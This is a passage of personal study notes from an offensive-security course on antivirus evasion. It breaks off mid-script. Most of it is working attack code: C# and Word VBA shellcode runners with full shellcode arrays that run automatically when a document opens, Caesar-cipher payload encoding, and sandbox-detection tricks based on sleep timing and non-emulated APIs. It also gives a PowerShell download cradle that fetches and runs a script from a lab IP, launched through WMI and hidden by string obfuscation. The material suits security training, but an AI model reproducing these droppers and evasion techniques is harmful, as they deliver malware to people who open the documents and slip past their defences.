0x77, 0xd4, 0x5a, 0xc5, 0x5a, 0x6c, 0x02, 0x5b, 0x4b, 0xc9, 0xc4, 0xf2, 0xb7, 0xa4, 0x58, 0x01, 0xd7 };

            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }
            Console.WriteLine(buf.Length);

            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

but it is giving me , error on `CreateThread`

```
The program '[13976] caeser_payload.exe' has exited with code 3221225622 (0xc0000096) 'Privileged instruction'
```

I created a new program and now it is working!

###6.5.2.1 Exercises
1. Implement the Caesar cipher with a different key to encrypt the shellcode and bypass 
antivirus.
2. Use the Exclusive or (XOR)296 operation to create a different encryption routine and bypass 
antivirus. Optional: How effective is this solution?

# Messing with our behaviour

We employ heiristics to find out if our application is being run in a simulation.

# Simple sleep timers

Using sleep timers
```C#
        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);
```

```C#
DateTime t1 = DateTime.Now;
            Sleep(2000);
            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
            if (t2 < 1.5)
            {
                return;
            }
```

### 6.6.1.1 Exercises
1. Implement the Sleep function to perform time-lapse detection in the C# project both with 
and without encryption.
2. Convert the C# project into a Jscript file with DotNetToJscript. Is it detected?

# Non emulated APIs

Antivirus emulator engines only simulate the execution of most common executable file formats 
and functions. Knowing this, we can attempt to bypass detection with a function (typically a 
Win32 API) that is either incorrectly emulated or is not emulated at all

VirtualAllocExNuma 

```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, 
 uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
```

```C#
[DllImport("kernel32.dll")]
static extern IntPtr GetCurrentProcess();
```

```C#
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 
0);
if(mem == null)
{
 return;
}
```

### 6.6.2.1 Exercises
1. Implement a heuristics detection bypass with VirtualAllocExNuma.
2. Use the Win32 FlsAlloc307 API to create a heuristics detection bypass.
3. Experiment and search for additional APIs that are not emulated by antivirus products

# Office Please BYpass Antivirus

looking at ou previous vba script

10.10.6.12:4443
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
 Dim buf As Variant
 Dim addr As LongPtr
 Dim counter As Long
 Dim data As Long
 Dim res As LongPtr

 buf = Array(252, 72, 131, 228, 240, 232, 204, 0, 0, 0, 65, 81, 65, 80, 82, 72, 49, 210, 101, 72, 139, 82, 96, 72, 139, 82, 24, 81, 72, 139, 82, 32, 86, 77, 49, 201, 72, 15, 183, 74, 74, 72, 139, 114, 80, 72, 49, 192, 172, 60, 97, 124, 2, 44, 32, 65, 193, 201, 13, 65, 1, 193, 226, 237, 82, 65, 81, 72, 139, 82, 32, 139, 66, 60, 72, 1, 208, 102, 129, 120, 24, _
    11, 2, 15, 133, 114, 0, 0, 0, 139, 128, 136, 0, 0, 0, 72, 133, 192, 116, 103, 72, 1, 208, 68, 139, 64, 32, 80, 73, 1, 208, 139, 72, 24, 227, 86, 77, 49, 201, 72, 255, 201, 65, 139, 52, 136, 72, 1, 214, 72, 49, 192, 65, 193, 201, 13, 172, 65, 1, 193, 56, 224, 117, 241, 76, 3, 76, 36, 8, 69, 57, 209, 117, 216, 88, 68, 139, 64, 36, 73, 1, _
    208, 102, 65, 139, 12, 72, 68, 139, 64, 28, 73, 1, 208, 65, 139, 4, 136, 72, 1, 208, 65, 88, 65, 88, 94, 89, 90, 65, 88, 65, 89, 65, 90, 72, 131, 236, 32, 65, 82, 255, 224, 88, 65, 89, 90, 72, 139, 18, 233, 75, 255, 255, 255, 93, 72, 49, 219, 83, 73, 190, 119, 105, 110, 105, 110, 101, 116, 0, 65, 86, 72, 137, 225, 73, 199, 194, 76, 119, 38, 7, _
    255, 213, 83, 83, 72, 137, 225, 83, 90, 77, 49, 192, 77, 49, 201, 83, 83, 73, 186, 58, 86, 121, 167, 0, 0, 0, 0, 255, 213, 232, 11, 0, 0, 0, 49, 48, 46, 49, 48, 46, 54, 46, 49, 50, 0, 90, 72, 137, 193, 73, 199, 192, 91, 17, 0, 0, 77, 49, 201, 83, 83, 106, 3, 83, 73, 186, 87, 137, 159, 198, 0, 0, 0, 0, 255, 213, 232, 246, 0, 0, _
    0, 47, 85, 121, 48, 99, 79, 71, 77, 88, 104, 101, 102, 67, 69, 115, 77, 81, 111, 78, 120, 81, 72, 65, 99, 110, 101, 107, 105, 110, 87, 52, 53, 45, 81, 84, 115, 109, 119, 68, 49, 105, 87, 68, 90, 73, 119, 120, 121, 121, 78, 89, 71, 119, 53, 99, 71, 71, 85, 101, 99, 68, 116, 118, 89, 55, 103, 73, 104, 108, 89, 65, 71, 121, 100, 85, 98, 100, 56, 95, _
    74, 104, 84, 87, 106, 81, 119, 49, 101, 89, 97, 120, 109, 71, 89, 68, 100, 110, 80, 68, 48, 113, 120, 52, 69, 109, 48, 88, 80, 69, 51, 69, 83, 53, 99, 68, 120, 65, 68, 116, 50, 78, 69, 122, 110, 79, 67, 104, 70, 56, 117, 76, 112, 71, 81, 87, 71, 110, 114, 103, 100, 90, 86, 97, 52, 79, 78, 108, 108, 113, 87, 87, 73, 89, 71, 56, 70, 76, 85, 105, _
    111, 113, 106, 72, 82, 54, 57, 70, 102, 111, 76, 118, 109, 89, 79, 83, 57, 113, 95, 112, 101, 76, 82, 98, 45, 77, 69, 77, 52, 122, 110, 108, 115, 89, 97, 66, 100, 70, 79, 54, 109, 85, 87, 53, 45, 104, 107, 45, 52, 57, 55, 100, 57, 98, 49, 97, 100, 45, 98, 57, 122, 48, 119, 110, 120, 114, 121, 48, 75, 98, 112, 51, 71, 69, 70, 68, 80, 71, 120, 73, _
    52, 100, 71, 98, 78, 119, 0, 72, 137, 193, 83, 90, 65, 88, 77, 49, 201, 83, 72, 184, 0, 50, 168, 132, 0, 0, 0, 0, 80, 83, 83, 73, 199, 194, 235, 85, 46, 59, 255, 213, 72, 137, 198, 106, 10, 95, 72, 137, 241, 106, 31, 90, 82, 104, 128, 51, 0, 0, 73, 137, 224, 106, 4, 65, 89, 73, 186, 117, 70, 158, 134, 0, 0, 0, 0, 255, 213, 77, 49, 192, _
    83, 90, 72, 137, 241, 77, 49, 201, 77, 49, 201, 83, 83, 73, 199, 194, 45, 6, 24, 123, 255, 213, 133, 192, 117, 31, 72, 199, 193, 136, 19, 0, 0, 73, 186, 68, 240, 53, 224, 0, 0, 0, 0, 255, 213, 72, 255, 207, 116, 2, 235, 170, 232, 85, 0, 0, 0, 83, 89, 106, 64, 90, 73, 137, 209, 193, 226, 16, 73, 199, 192, 0, 16, 0, 0, 73, 186, 88, 164, 83, _
    229, 0, 0, 0, 0, 255, 213, 72, 147, 83, 83, 72, 137, 231, 72, 137, 241, 72, 137, 218, 73, 199, 192, 0, 32, 0, 0, 73, 137, 249, 73, 186, 18, 150, 137, 226, 0, 0, 0, 0, 255, 213, 72, 131, 196, 32, 133, 192, 116, 178, 102, 139, 7, 72, 1, 195, 133, 192, 117, 210, 88, 195, 88, 106, 0, 89, 187, 224, 29, 42, 10, 65, 137, 218, 255, 213)
 
 addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
 
 For counter = LBound(buf) To UBound(buf)
 data = buf(counter)
 res = RtlMoveMemory(addr + counter, data, 1)
 Next counter
 
 res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
```

### Using caesar cipher and time 

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
 Dim buf As Variant
 Dim addr As LongPtr
 Dim counter As Long
 Dim data As Long
 Dim res As LongPtr

 buf = Array(54, 74, 133, 230, 242, 234, 206, 2, 2, 2, 67, 83, 67, 82, 84, 74, 51, 212, 83, 88, 103, 74, 141, 84, 98, 74, 141, 84, 26, 74, 141, 84, 34, 74, 17, 185, 76, 76, 79, 51, 203, 74, 141, 116, 82, 74, 51, 194, 174, 62, _
99, 126, 4, 46, 34, 67, 195, 203, 15, 67, 3, 195, 228, 239, 84, 74, 141, 84, 34, 67, 83, 141, 68, 62, 74, 3, 210, 104, 131, 122, 26, 13, 4, 17, 135, 116, 2, 2, 2, 141, 130, 138, 2, 2, 2, 74, 135, 194, 118, 105, _
74, 3, 210, 70, 141, 66, 34, 82, 75, 3, 210, 141, 74, 26, 229, 88, 74, 1, 203, 79, 51, 203, 67, 141, 54, 138, 74, 3, 216, 74, 51, 194, 67, 195, 203, 15, 174, 67, 3, 195, 58, 226, 119, 243, 78, 5, 78, 38, 10, 71, _
59, 211, 119, 218, 90, 70, 141, 66, 38, 75, 3, 210, 104, 67, 141, 14, 74, 70, 141, 66, 30, 75, 3, 210, 67, 141, 6, 138, 67, 90, 74, 3, 210, 67, 90, 96, 91, 92, 67, 90, 67, 91, 67, 92, 74, 133, 238, 34, 67, 84, _
1, 226, 90, 67, 91, 92, 74, 141, 20, 235, 77, 1, 1, 1, 95, 74, 51, 221, 85, 75, 192, 121, 107, 112, 107, 112, 103, 118, 2, 67, 88, 74, 139, 227, 75, 201, 196, 78, 121, 40, 9, 1, 215, 85, 85, 74, 139, 227, 85, 92, _
79, 51, 194, 79, 51, 203, 85, 85, 75, 188, 60, 88, 123, 169, 2, 2, 2, 2, 1, 215, 234, 13, 2, 2, 2, 51, 50, 48, 51, 50, 48, 56, 48, 51, 52, 2, 92, 74, 139, 195, 75, 201, 194, 94, 19, 2, 2, 79, 51, 203, _
85, 85, 108, 5, 85, 75, 188, 89, 139, 161, 200, 2, 2, 2, 2, 1, 215, 234, 98, 2, 2, 2, 49, 82, 82, 78, 117, 110, 114, 59, 113, 83, 103, 56, 76, 53, 91, 108, 104, 56, 122, 69, 56, 105, 83, 77, 83, 90, 103, 87, _
113, 76, 117, 58, 108, 58, 73, 89, 106, 51, 118, 88, 118, 114, 109, 124, 53, 108, 78, 116, 101, 108, 79, 108, 124, 104, 79, 97, 71, 53, 114, 108, 108, 112, 97, 73, 109, 67, 123, 86, 68, 58, 87, 102, 102, 114, 69, 92, 111, 87, _
102, 47, 112, 86, 80, 74, 124, 100, 107, 47, 84, 53, 99, 71, 81, 90, 69, 2, 74, 139, 195, 85, 92, 67, 90, 79, 51, 203, 85, 74, 186, 2, 52, 170, 134, 2, 2, 2, 2, 82, 85, 85, 75, 201, 196, 237, 87, 48, 61, 1, _
215, 74, 139, 200, 108, 12, 97, 74, 139, 243, 108, 33, 92, 84, 106, 130, 53, 2, 2, 75, 139, 226, 108, 6, 67, 91, 75, 188, 119, 72, 160, 136, 2, 2, 2, 2, 1, 215, 79, 51, 194, 85, 92, 74, 139, 243, 79, 51, 203, 79, _
51, 203, 85, 85, 75, 201, 196, 47, 8, 26, 125, 1, 215, 135, 194, 119, 33, 74, 201, 195, 138, 21, 2, 2, 75, 188, 70, 242, 55, 226, 2, 2, 2, 2, 1, 215, 74, 1, 209, 118, 4, 237, 172, 234, 87, 2, 2, 2, 85, 91, _
108, 66, 92, 75, 139, 211, 195, 228, 18, 75, 201, 194, 2, 18, 2, 2, 75, 188, 90, 166, 85, 231, 2, 2, 2, 2, 1, 215, 74, 149, 85, 85, 74, 139, 233, 74, 139, 243, 74, 139, 220, 75, 201, 194, 2, 34, 2, 2, 75, 139, _
251, 75, 188, 20, 152, 139, 228, 2, 2, 2, 2, 1, 215, 74, 133, 198, 34, 135, 194, 118, 180, 104, 141, 9, 74, 3, 197, 135, 194, 119, 212, 90, 197, 90, 108, 2, 91, 75, 201, 196, 242, 183, 164, 88, 1, 215)
 
 For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
 
 addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
 
 For counter = LBound(buf) To UBound(buf)
 data = buf(counter)
 res = RtlMoveMemory(addr + counter, data, 1)
 Next counter
 
 res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
```

### Using time sleep

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Function MyMacro()
 Dim buf As Variant
 Dim addr As LongPtr
 Dim counter As Long
 Dim data As Long
 Dim res As LongPtr
 
 Dim t1 As Date
Dim t2 As Date
Dim time As Long
t1 = Now()
Sleep (2000)
t2 = Now()
time = DateDiff("s", t1, t2)
If time < 2 Then
 Exit Function
End If

 buf = Array(54, 74, 133, 230, 242, 234, 206, 2, 2, 2, 67, 83, 67, 82, 84, 74, 51, 212, 83, 88, 103, 74, 141, 84, 98, 74, 141, 84, 26, 74, 141, 84, 34, 74, 17, 185, 76, 76, 79, 51, 203, 74, 141, 116, 82, 74, 51, 194, 174, 62, _
99, 126, 4, 46, 34, 67, 195, 203, 15, 67, 3, 195, 228, 239, 84, 74, 141, 84, 34, 67, 83, 141, 68, 62, 74, 3, 210, 104, 131, 122, 26, 13, 4, 17, 135, 116, 2, 2, 2, 141, 130, 138, 2, 2, 2, 74, 135, 194, 118, 105, _
74, 3, 210, 70, 141, 66, 34, 82, 75, 3, 210, 141, 74, 26, 229, 88, 74, 1, 203, 79, 51, 203, 67, 141, 54, 138, 74, 3, 216, 74, 51, 194, 67, 195, 203, 15, 174, 67, 3, 195, 58, 226, 119, 243, 78, 5, 78, 38, 10, 71, _
59, 211, 119, 218, 90, 70, 141, 66, 38, 75, 3, 210, 104, 67, 141, 14, 74, 70, 141, 66, 30, 75, 3, 210, 67, 141, 6, 138, 67, 90, 74, 3, 210, 67, 90, 96, 91, 92, 67, 90, 67, 91, 67, 92, 74, 133, 238, 34, 67, 84, _
1, 226, 90, 67, 91, 92, 74, 141, 20, 235, 77, 1, 1, 1, 95, 74, 51, 221, 85, 75, 192, 121, 107, 112, 107, 112, 103, 118, 2, 67, 88, 74, 139, 227, 75, 201, 196, 78, 121, 40, 9, 1, 215, 85, 85, 74, 139, 227, 85, 92, _
79, 51, 194, 79, 51, 203, 85, 85, 75, 188, 60, 88, 123, 169, 2, 2, 2, 2, 1, 215, 234, 13, 2, 2, 2, 51, 50, 48, 51, 50, 48, 56, 48, 51, 52, 2, 92, 74, 139, 195, 75, 201, 194, 94, 19, 2, 2, 79, 51, 203, _
85, 85, 108, 5, 85, 75, 188, 89, 139, 161, 200, 2, 2, 2, 2, 1, 215, 234, 98, 2, 2, 2, 49, 82, 82, 78, 117, 110, 114, 59, 113, 83, 103, 56, 76, 53, 91, 108, 104, 56, 122, 69, 56, 105, 83, 77, 83, 90, 103, 87, _
113, 76, 117, 58, 108, 58, 73, 89, 106, 51, 118, 88, 118, 114, 109, 124, 53, 108, 78, 116, 101, 108, 79, 108, 124, 104, 79, 97, 71, 53, 114, 108, 108, 112, 97, 73, 109, 67, 123, 86, 68, 58, 87, 102, 102, 114, 69, 92, 111, 87, _
102, 47, 112, 86, 80, 74, 124, 100, 107, 47, 84, 53, 99, 71, 81, 90, 69, 2, 74, 139, 195, 85, 92, 67, 90, 79, 51, 203, 85, 74, 186, 2, 52, 170, 134, 2, 2, 2, 2, 82, 85, 85, 75, 201, 196, 237, 87, 48, 61, 1, _
215, 74, 139, 200, 108, 12, 97, 74, 139, 243, 108, 33, 92, 84, 106, 130, 53, 2, 2, 75, 139, 226, 108, 6, 67, 91, 75, 188, 119, 72, 160, 136, 2, 2, 2, 2, 1, 215, 79, 51, 194, 85, 92, 74, 139, 243, 79, 51, 203, 79, _
51, 203, 85, 85, 75, 201, 196, 47, 8, 26, 125, 1, 215, 135, 194, 119, 33, 74, 201, 195, 138, 21, 2, 2, 75, 188, 70, 242, 55, 226, 2, 2, 2, 2, 1, 215, 74, 1, 209, 118, 4, 237, 172, 234, 87, 2, 2, 2, 85, 91, _
108, 66, 92, 75, 139, 211, 195, 228, 18, 75, 201, 194, 2, 18, 2, 2, 75, 188, 90, 166, 85, 231, 2, 2, 2, 2, 1, 215, 74, 149, 85, 85, 74, 139, 233, 74, 139, 243, 74, 139, 220, 75, 201, 194, 2, 34, 2, 2, 75, 139, _
251, 75, 188, 20, 152, 139, 228, 2, 2, 2, 2, 1, 215, 74, 133, 198, 34, 135, 194, 118, 180, 104, 141, 9, 74, 3, 197, 135, 194, 119, 212, 90, 197, 90, 108, 2, 91, 75, 201, 196, 242, 183, 164, 88, 1, 215)
 
 For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
 
 addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
 
 For counter = LBound(buf) To UBound(buf)
 data = buf(counter)
 res = RtlMoveMemory(addr + counter, data, 1)
 Next counter
 
 res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub


```

### 6.7.1.1 Exercises
1. Implement the Caesar cipher encryption and time-lapse detection in a VBA macro.
2. Attempt to reduce the detection rate further by using a different encryption algorithm and 
routine along with alternative heuristic bypasses.

# Stomping on microsoft word

Security research was released in 2018 discussing how VBA code is stored in Microsoft Word 
and Excel macros and it can be abused.311 In this section, we will investigate this topic and 
leverage this technique to reduce our detection

The Microsoft Office file formats used in documents with .doc and .xls extensions rely on the very 
old and partially-documented proprietary Compound File Binary Format,
312 which can combine 
multiple files into a single disk file.
On the other hand, more modern Microsoft Office file extensions, like .docm and .xlsm, describe 
an updated and more open file format that is not dissimilar to a .zip file.

Word and Excel documents using the modern macro-enabled formats can be 
unzipped with 7zip and the contents inspected in a hex editor

flexhex is downloaded from : http://www.flexhex.com/

But using macro in word is replete with problems



after putting thte basic shellcode (without caesar which was working it is not working)
The P-code is a compiled version of the VBA textual code for 
the specific version of Microsoft Office and VBA it was created on

As we will demonstrate, only a few antivirus products actually inspect the P-code at all. This 
concept of removing the VBA source code has been termed VBA Stomping.


# notes on macro

the macro needs to be made for the document
the macro is lobally sterd as a not.dotm file

Evil clippy error
```
C:\Users\misthios\codeplay\EvilClippy>csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
Microsoft (R) Visual C# Compiler version 4.8.4084.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

compression.cs(111,60): error CS1002: ; expected
compression.cs(111,78): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(123,25): error CS1002: ; expected
compression.cs(123,28): error CS1520: Method must have a return type
compression.cs(123,43): error CS1002: ; expected
compression.cs(123,50): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(174,49): error CS1002: ; expected
compression.cs(174,59): error CS1519: Invalid token ')' in class, struct, or interface member declaration
compression.cs(174,81): error CS1519: Invalid token '-' in class, struct, or interface member declaration
compression.cs(246,64): error CS1002: ; expected
compression.cs(246,84): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(320,28): error CS1002: ; expected
compression.cs(320,43): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(322,32): error CS1002: ; expected
compression.cs(322,47): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(445,44): error CS1002: ; expected
compression.cs(445,54): error CS1519: Invalid token ')' in class, struct, or interface member declaration
compression.cs(445,69): error CS1519: Invalid token ')' in class, struct, or interface member declaration
compression.cs(516,70): error CS1519: Invalid token '=' in class, struct, or interface member declaration
compression.cs(516,99): error CS1519: Invalid token '(' in class, struct, or interface member declaration
compression.cs(658,28): error CS1002: ; expected
compression.cs(711,25): error CS1002: ; expected
compression.cs(711,40): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(1084,38): error CS1002: ; expected
compression.cs(1084,59): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(1086,31): error CS1002: ; expected
compression.cs(1086,40): error CS1519: Invalid token '=>' in class, struct, or interface member declaration
compression.cs(1086,50): error CS1519: Invalid token ';' in class, struct, or interface member declaration
compression.cs(1124,30): error CS1002: ; expected
compression.cs(1124,43): error CS1519: Invalid token '(' in class, struct, or interface member declaration
compression.cs(1124,46): error CS1519: Invalid token '=>' in class, struct, or interface member declaration
compression.cs(1124,57): error CS1519: Invalid token ')' in class, struct, or interface member declaration
compression.cs(1126,47): error CS1002: ; expected
compression.cs(1126,57): error CS1519: Invalid token ';' in class, struct, or interface member declaration
```

### 6.7.2.1 Exercises
1. Use FlexHex to delve into the file format of Microsoft Word as explained in this section.
2. Manually stomp out a Microsoft Word document and verify that it still works while improving 
evasion.
3. Use the Evil Clippy316 tool (located in C:\Tools\EvilClippy.exe) to automate the VBA Stomping 
process

https://github.com/outflanknl/EvilClippy.git

not able to install.

1. is the shellcode getting detected
WE TRIED A NEW CODE - might be getting detected need to check with calc opening shellcode.

2. can we compile it as a 32 bit program
TRIED - better performance with antivirus.

3. can we run 32 bit shellcode on 64 bit program?
Not happening

4. create a 32 bit program to inject into a 64 bit process.

# Hiding Powershell inside VBA

to reduce detection rate

# Detection of Powershell shellcode

11 detection in code

```vb
Sub PowershellDownload()
 Dim strArg As String
 strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://10.10.6.12/run.txt'))"
 Shell strArg, vbHide
End Sub
```

run.txt contains contains:

```ps1
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
 [DllImport("user32.dll", CharSet=CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, int
options);
}
"@
Add-Type $User32
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

### 6.8.1.1 Exercises
1. Perform a scan of the PowerShell download cradle and shellcode runner.

create powershell cradle to download a powershell shell code runner 

2. What is the detection rate when the PowerShell instead downloads a pre-compiled C# 
assembly shellcode runner and loads it dynamically?

use powershell to load a pre compiled C# exe

# Dechaining with WMI

with WMI we will create a Our goal is to use WMI from VBA to create a PowerShell process instead of having it as a child 
process of Microsoft Word. We will first connect to WMI from VBA which is done through GetObject method specifying the win mgmts. Winmhmt is the WMI service withing the SVCHOST process running under LocalSystem account.

Invoking entire WMI process creation call as a one liner from VBA

```vb
Sub MyMacro
 strArg = "powershell"
 GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
Sub AutoOpen()
 Mymacro
End Sub
```
VBA macro 
```vb
Sub MyMacro
 strArg = "powershell -exec bypass -nop -c iex((new-object 
system.net.webclient).downloadstring('http://10.10.6.12/run.txt'))"
 GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
Sub AutoOpen()
 Mymacro
End Sub
```

### 6.8.2.1 Exercises
1. Implement the WMI process creation to de-chain the PowerShell process.



2. Update the PowerShell shellcode runner to 64-bit.

# obfuscating VBA

strreverse function
we createa function to reverse string


```
Function bears(cows)
 bears = StrReverse(cows)
End Function
Sub Mymacro()
Dim strArg As String
strArg = 
bears("))'txt.nur/21.6.01.01//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")
GetObject(bears(":stmgmniw")).Get(bears("ssecorP_23niW")).Create strArg, Null, Null, 
pid
End Sub
```

To reduce the detection rate even further, we can perform a more complex obfuscation by 
converting the ASCII string to its decimal representation and then performing a Caesar cipher 
encryption on the resul

```
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object 
system.net.webclient).downloadstring('http://10.10.6.12/run.txt'))"
[string]$output = ""
$payload.ToCharArray() | %{
 [string]$thischar = [byte][char]$_ + 17
 if($thischar.Length -eq 1)
 {
 $thischar = [string]"00" + $thischar
 $output += $thischar
 }
 elseif($thischar.Length -eq 2)
 {
 $thischar = [string]"0" + $thischar
 $output += $thischar
 }
 elseif($thischar.Length -eq 3)
 {
 $output += $thischar
 }
}
$output | clip
```

The result is 

```
129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066065063066065063071063066067064131134127063133137133056058058
```

decrypted string

```
Function Pears(Beets)
 Pears = Chr(Beets - 17)
End Function
Function Strawberries(Grapes)
 Strawberries = Left(Grapes, 3)
End Function
Function Almonds(Jelly)
 Almonds = Right(Jelly, Len(Jelly) - 3)
End Function
Function Nuts(Milk)
 Do
 Oatmilk = Oatmilk + Pears(Strawberries(Milk))
 Milk = Almonds(Milk)
 Loop While Len(Milk) > 0
 Nuts = Oatmilk
End Function

Function MyMacro()
 Dim Apples As String
 Dim Water As String

Apples = 
"129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066065063066065063071063066067064131134127063133137133056058058"
 Water = Nuts(Apples)
 
GetObject(Nuts("136122127126120126133132075")).Get(Nuts("10412212706806711209713112811
6118132132")).Create Water, Tea, Coffee, Napkin
End Function
```


encryypting for powershell 

the document name - powershell_download

```
129128136118131132121118125125112117128136127125128114117063117128116
```

full function

```vb
Function Pears(Beets)
 Pears = Chr(Beets - 17)
End Function
Function Strawberries(Grapes)
 Strawberries = Left(Grapes, 3)
End Function
Function Almonds(Jelly)
 Almonds = Right(Jelly, Len(Jelly) - 3)
End Function
Function Nuts(Milk)
 Do
 Oatmilk = Oatmilk + Pears(Strawberries(Milk))
 Milk = Almonds(Milk)
 Loop While Len(Milk) > 0
 Nuts = Oatmilk
End Function

Function MyMacro()
 If ActiveDocument.Name <> Nuts("129128136118131132121118125125112117128136127125128114117063117128116") Then
   Exit Function
 End If
 
 Dim Apples As String
 Dim Water As String

 Apples = "129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066065063066065063071063066067064131134127063133137133056058058"
 Water = Nuts(Apples)
 
 GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function

```

and inside run.txt

```ps1
$fsvHohOEwGT = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll", SetLastError=true)]public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
"@

$XYTObEhYph = Add-Type -memberDefinition $fsvHohOEwGT -Name "Win32" -namespace Win32Functions -passthru

